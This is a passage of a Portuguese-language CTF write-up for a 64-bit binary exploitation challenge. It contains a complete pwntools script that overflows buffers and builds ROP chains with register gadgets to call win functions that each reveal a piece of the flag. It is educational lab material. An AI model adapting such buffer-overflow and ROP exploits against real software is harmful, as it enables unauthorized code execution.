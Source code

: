 {% endcode %}

Não tem muito segredo agora, a `win2()` verifica se o parâmetro está correto e pede para pularmos para a `win3()` passando 3 parâmetros (cujos *gadgets* necessários são fornecidos no código). 

{% hint style="warning" %}

**Importante:** Todas as funções `win` imprimem um pedaço da *flag*.

{% endhint %}

### 2. Exploit
O *exploit* é simples, devemos apenas realizar um **ROP**, nos preocupando em pegar os pedaços da *flag*.

{% code title="solve.py" overflow="wrap" lineNumbers="true" %}

```py
# 64 bits in my Ark and Texture
# Can you pwn it? No libc or system needed. Just good ol, 64 bit binary exploitation.

from pwn import *

elf = context.binary = ELF("./64bits")
#p = process()
p = remote("ip", porta)

#gdb.attach(p)
#input("PAUSE: ")

# Respondendo as questões.
p.sendlineafter(b"> ", b"2")
p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"> ", b"4")

# Retornando para a win1.
payload = b"A" * 0x98 + p64(0x401400) + p64(elf.sym["win1"])
p.recvuntil(b"address")
p.sendlineafter(b"\n", payload)

# Recuperando a flag1.
p.recvuntil(b"advance.")
flag1 = p.recvuntil(b"Continue", drop=True).decode()
print(flag1)

# Retornando para a win2.
payload = b"A" * 0x28 + p64(elf.sym["pop_rdi_ret"]) + p64(0xdeadbeef) + p64(0x401400) + p64(elf.sym["win2"])
p.sendline(payload)

# Recuperando a DEADBEEF
p.recvuntil(b"I believe in you")
deadbeef = p.recvuntil(b"Final ", drop=True).decode()
print(deadbeef)

# Retornnando para a win3
payload = b"A" * 0x38 + p64(elf.sym["pop_rdi_ret"]) + p64(0xdeadbeef) + p64(elf.sym["pop_rsi_ret"]) + p64(0xdeafface) + p64(elf.sym["pop_rdx_ret"]) + p64(0xfeedcafe) + p64(0x401400) +p64(elf.sym["win3"])
p.sendline(payload) 

# Recuperando o resto.
p.recvuntil(b"reward\n")
rest = p.recvall().decode()
print(rest)

```
